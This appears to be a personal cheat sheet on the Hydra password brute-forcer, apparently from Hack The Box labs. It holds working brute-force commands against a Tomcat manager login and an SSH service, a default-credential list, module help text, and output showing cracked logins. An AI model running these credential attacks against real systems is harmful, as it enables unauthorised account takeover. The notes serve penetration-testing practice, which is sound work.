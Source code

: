 - [Basic](#basic)
     - [Common Options](#common-options)
     - [Username:Password Combination](#usernamepassword-combination)
     - [Supported Services](#supported-services)
- [HTTP](#http)
     - [hydra -U http-get](#hydra--u-http-get) arrangement doesn't matter
     - [hydra http-post-form -U](#hydra-http-post-form--u)
     - [HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables](#use-hydra_proxy_http-or-hydra_proxy-environment-variables-for-a-proxy-setup)
     - [Debug, send Hydra output to Burp](#to-debug-send-hydra-output-to-burp-use-this-in-the-same-line)
     - [Common Mistakes](#common-mistakes)
     - [Now you got it right](#now-you-got-it-right)
     - [Common Mistakes; variables argument needed for http-post-form](#common-mistakes-variables-argument-needed-for-http-post-form)
- [SSH](#ssh)


# [Basic](#basic-1)
HTB: ???
```sh
hydra -C creds.txt http-get://10.10.10.95:8080/manager/html
hydra -U http-get
hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'
```

## [Common Options](#common-options-1)
```sh
-l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
-p PASS  or -P FILE  try password PASS, or load several passwords from FILE
-C FILE   colon separated "login:pass" format, instead of -L/-P options

-U        service module usage details

-v   verbose mode
-V   show login+pass for each attempt
-d   debug mode

-f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
```

## [Username:Password Combination](#usernamepassword-combination-1)
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
Save as: labs/htb/_BeginnerTrack/Jerry/creds.txt
```sh
admin:password
admin:
... snip ...
tomcat:admin
tomcat:changethis
```

## [Supported Services](#supported-services-1)
```sh
Supported services: adam6500 asterisk cisco cisco-enable cobaltstrike cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
```

# [HTTP](#http-1)

### hydra -U http-get
hydra -U http-get
hydra http-get -U
```sh
$ hydra -U http-get
Help for module http-get:
============================================================================
Module http-get requires the page to authenticate.
The following parameters are optional:
 (a|A)=auth-type   specify authentication mechanism to use: BASIC, NTLM or MD5
 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
 (F|S)=check for text in the HTTP reply. S= means if this text is found, a
       valid account has been found, F= means if this string is present the
       combination is invalid. Note: this must be the last option supplied.
For example:  "/secret" or "http://bla.com/foo/bar:H=Cookie\: sessid=aaaa" or "https://test.com:8080/members:A=NTLM"
```

### hydra http-post-form -U
```sh
$ hydra http-post-form -U
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-15 17:40:15

Help for module http-post-form:
============================================================================
Module http-post-form requires the page and the parameters for the web form.

By default this module is configured to follow a maximum of 5 redirections in
a row. It always gathers a new cookie from the same URL without variables
The parameters requires at a minimum three ":" separated values,
plus optional values.
(Note: if you need a colon in the option string as value, escape it with "\:", but do not escape a "\" with "\\".)

Syntax: <url>:<form parameters>[:<optional>[:<optional>]:<condition string>

First is the page on the server to GET or POST to (URL), e.g. "/login".
Second is the POST/GET variables (taken from either the browser, proxy, etc.)
 without the initial '?' character and the usernames and passwords being
 replaced with "^USER^" ("^USER64^" for base64 encodings) and "^PASS^"
 ("^PASS64^" for base64 encodings).
Third are optional parameters (see below)
Last is the string that it checks for an *invalid* login (by default).
 Invalid condition login check can be preceded by "F=", successful condition
 login check must be preceded by "S=".
 This is where most people get it wrong! You have to check the webapp what a
 failed string looks like and put it in this parameter! Add the -d switch to see
 the sent/received data!
 Note that using invalid login condition checks can result in false positives!

The following parameters are optional and are put between the form parameters
  and the condition string; seperate them too with colons:
 2=                  302 page forward return codes identify a successful attempt
 (c|C)=/page/uri     to define a different page to gather initial cookies from
 (g|G)=              skip pre-requests - only use this when no pre-cookies are required
 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
                 ^USER[64]^ and ^PASS[64]^ can also be put into these headers!
                 Note: 'h' will add the user-defined header at the end
                 regardless it's already being sent by Hydra or not.
                 'H' will replace the value of that header if it exists, by the
                 one supplied by the user, or add the header at the end

Note that if you are going to put colons (:) in your headers you should escape
them with a backslash (\). All colons that are not option separators should be
escaped (see the examples above and below).
You can specify a header without escaping the colons, but that way you will not
be able to put colons in the header value itself, as they will be interpreted by
hydra as option separators.

Examples:
 "/login.php:user=^USER^&pass=^PASS^:incorrect"
 "/login.php:user=^USER64^&pass=^PASS64^&colon=colon\:escape:S=result=success"
 "/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
 "/:user=^USER&pass=^PASS^:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^:H=User-Agent\: wget"
 "/exchweb/bin/auth/:F=failedowaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:C=/exchweb":reason=
```

### Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
```sh
$ hydra -h
... [snip] ...
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)
... [snip] ...
```

### [To debug, send Hydra output to Burp. Use this in the same line](#to-debug-send-hydra-output-to-burp-use-this-in-the-same-line-1)
```sh
HYDRA_PROXY_HTTP=http://localhost:8080 hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'
```

### [Common Mistakes](#common-mistakes-1)
login: admin   password: admin are not the right combination, see the help above
```sh
$ hydra -C creds.txt http-get://10.10.10.95:8080/manager/html

[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 2 valid passwords found

```

### [Now you got it right](#now-you-got-it-right-1)
```sh
$ hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'

[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries, ~2 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html:F=Access Denied
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found
```

### [Common Mistakes; variables argument needed for http-post-form](#common-mistakes-variables-argument-needed-for-http-post-form-1)
```sh
$ hydra http-post-form://$ip
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-15 17:46:05
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[ERROR] the variables argument needs at least the strings ^USER^, ^PASS^, ^USER64^ or ^PASS64^: (null)
```

### 
Syntax: <url>:<form parameters>[:<optional>[:<optional>]:<condition string>
```

```

# [SSH](#ssh-1)

### 
```sh
head /usr/share/seclists/Usernames/top-usernames-shortlist.txt > users.txt
echo msfadmin >> users.txt
echo msfadmin | tee -a passwords.txt

$ hydra -L users.txt -P passwords.txt ssh://$t                              
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-01 09:15:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 121 login tries (l:11/p:11), ~8 tries per task
[DATA] attacking ssh://10.1.1.1:22/
[ERROR] could not connect to ssh://10.1.1.1:22 - kex error : no match for method server host key algo: server [ssh-rsa,ssh-dss], client [rsa-sha2-512,rsa-sha2-256,ssh-ed25519,ecdsa-sha2-nistp521,ecdsa-sha2-nistp384,ecdsa-sha2-nistp256,sk-ssh-ed25519@openssh.com,sk-ecdsa-sha2-nistp256@openssh.com]
```

### 
```sh

```

### 
```sh

```

### 
```sh

```

### 
```sh

```

### 
```sh

```